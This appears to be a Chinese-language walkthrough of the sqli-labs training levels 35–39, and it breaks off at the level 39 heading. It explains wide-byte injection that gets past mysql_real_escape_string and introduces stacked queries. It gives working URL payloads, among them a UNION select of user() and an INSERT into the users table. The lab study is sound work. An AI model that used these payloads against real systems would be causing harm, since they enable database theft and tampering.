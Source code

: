 ##### Less-35 

35 关和 33关是大致的一样的，唯一的区别在于 `sql` 语句的不同。

```sql
SELECT * FROM users WHERE id=$id LIMIT 0,1
```

没有 `‘`，就没必考虑 `addslashes()` 函数的意义了

##### Less-36 

```php
$string = mysql_real_escape_string($string);

// 下列字符将受影响
\x00	\n		\r		\		'		"		\x1a
```

依然宽字节注入

```
?id=-1%EF%BF%BD%27union%20select%201,user(),3--+
```

**Notice:**
在使用 `mysql_real_escape_string()` 时，需要将 `mysql` 设置为 `gbk` 即可。

```
mysql_set_charset(‘gbk’,’$conn’)
```

##### Less-37 

利用 34 关的 payload



---

以下正式进入堆叠注入，即

```sql
select * from users where id=1; show tables;
```

由于 `sql` 语句是以 `;` 分隔，所以在查询语句的基础，我们还可以加多条语句。

---



##### Less-38 

没有什么过滤，可以为所欲为，比如直接插入数据

```sql
id=1%27;insert%20into%20users(id,username,password)%20values%20(%2738%27,%27less38%27,%27hello%27)--+
```

##### Less-39 
